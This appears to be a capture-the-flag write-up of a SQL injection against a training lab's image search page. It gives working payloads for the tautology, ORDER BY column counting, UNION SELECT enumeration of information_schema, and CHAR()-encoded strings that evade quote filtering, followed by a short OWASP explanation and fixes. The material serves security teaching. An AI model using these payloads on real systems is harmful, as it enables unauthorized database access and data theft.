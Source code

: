# SQL injection basic

Search for users by id is implemented on the page.
![1](./img/1.png)
Let's try to SQL injection.
We assume that the request has the following structure:
```
SELECT id, title, url FROM table_name
WHERE id = 1
```
If we enter 1+1, then user 2 will be returned to us.
So it is sensible to injection.

Try this input: 1 or 1 = 1
```
SELECT id, title, url FROM table_name
WHERE id = 1 or 1 = 1
```
![1or1=1](./img/1or1=1.png)

Wow, it works! We are interested in a user under 5 id.
![5](./img/5.png)

Let's try to find the number of fields that SQL sends using ORDER BY.
If you enter ```5 ORDER BY 3``` - we get an error, which means SQL sends 2 fields.

Enter ```4242 UNION SELECT 4242, database()```
And we get the name of the database - Member_images.

Let's try to get the table name
```
4242 UNION SELECT 1, TABLE_NAME
FROM information_schema.TABLES
WHERE TABLE_SCHEMA = CHAR(077,101,109,098,101,114,095,105,109,097,103,101,115)
```

The name of table is list_images.

CHAR(077,101,109,098,101,114,095,105,109,097,103,101,115) - translating Member_images into a sequence of characters, because lines in our case are not accepted.

Now we get the columns that are in the table
```
4242 UNION SELECT 1, COLUMN_NAME
FROM information_schema.COLUMNS
WHERE TABLE_SCHEMA = CHAR(077,101,109,098,101,114,095,105,109,097,103,101,115) # Member_images
AND TABLE_NAME = CHAR(108,105,115,116,095,105,109,097,103,101,115) 
```

We get the following database fields: id, url, title, comment.

```
4242 UNION SELECT id, comment
FROM list_images
```
![final](./img/final.png)

```
borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
So, we just follow this instructions.

## Explanation
Attack type: [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application.
> A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete),
> execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present
> on the DBMS file system and in some cases issue commands to the operating system.
> SQL injection attacks are a type of injection attack,
> in which SQL commands are injected into data-plane input in order to affect theexecution of predefined SQL commands.

## How to fix it
> Escaping all user supplied input.
> Use of stored procedures.
